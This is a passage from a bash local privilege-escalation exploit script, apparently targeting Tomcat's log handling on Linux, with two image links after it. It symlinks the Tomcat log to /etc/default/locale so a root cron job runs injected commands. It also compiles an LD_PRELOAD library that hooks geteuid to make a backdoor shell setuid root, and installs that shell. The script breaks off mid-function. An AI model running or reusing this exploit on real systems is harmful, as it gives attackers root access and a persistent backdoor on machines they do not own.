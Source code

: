 # Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
# restarted and file owner gets changed.
if [ "$mode" = "deferred" ]; then
    rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
    echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
    echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
    echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
    echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)\n\n"
    exit 0
fi
 
# [ Active exploitation ]
 
trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
uid_t geteuid(void) {
    static uid_t  (*old_geteuid)();
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
_solibeof_
gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
if [ $? -ne 0 ]; then
    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    cleanexit 2;
fi
 
# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"
 
# Safety check
if [ -f /etc/ld.so.preload ]; then
    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
    cleanexit 2

[1]: http://ojyzyrhpd.bkt.clouddn.com/20161012/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20161012/2.png